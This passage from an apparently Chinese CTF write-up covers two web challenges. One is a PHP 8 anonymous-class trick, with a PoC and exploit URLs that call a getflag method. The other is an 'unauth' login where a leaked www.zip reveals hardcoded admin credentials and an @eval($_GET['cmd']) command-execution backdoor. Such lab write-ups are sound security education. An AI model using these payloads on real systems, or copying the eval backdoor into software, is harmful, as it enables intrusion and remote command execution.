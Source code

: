 ```
 $a = urldecode("class%40anonymous%00%2Fvar%2Fwww%2Fhtml%2Fflag.php%3A7%240");
 $f = new $a();
 $f->getflag();
 var_dump($f);
 //throw new Exception(
 //    get_class($anonymous).' ...now you don\'t!',
 //    E_USER_ERROR
 //);
```

可以看到能执行getflag方法：

![image-20240721030403850](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033935538-871688973.png)

![image-20240721022458707](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033936253-1251045229.png)

构造`exp`：

```
 /flag.php?ezphpPhp8=anonymous
 /flag.php?ezphpPhp8=class@anonymous%00/var/www/html/flag.php:7$1
 /flag.php?ezphpPhp8=class@anonymous%00/var/www/html/flag.php:7$0
```

![image-20240721022543080](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033937135-1055631119.png)

### **unauth**

开局一个登录口

![image-20240721022613215](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033937884-999732464.png)

泄露了网站路径/www.zip中有admin的密码：

![image-20240721022644892](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033938562-712807517.png)

www.zip泄露源码如下：

```
 <?php
 if (!isset($_SERVER['PHP_AUTH_USER'])) {
     header('WWW-Authenticate: Basic realm="Restricted Area"');
     header('HTTP/1.0 401 Unauthorized');
     echo '小明是运维工程师，最近网站老是出现bug。';
     exit;
 } else {
     $validUser = 'admin';
     $validPass = '2e525e29e465f45d8d7c56319fe73036';

     if ($_SERVER['PHP_AUTH_USER'] != $validUser || $_SERVER['PHP_AUTH_PW'] != $validPass) {
         header('WWW-Authenticate: Basic realm="Restricted Area"');
         header('HTTP/1.0 401 Unauthorized');
         echo 'Invalid credentials';
         exit;
     }
 }
 @eval($_GET['cmd']);
 highlight_file(__FILE__);
 ?>
```
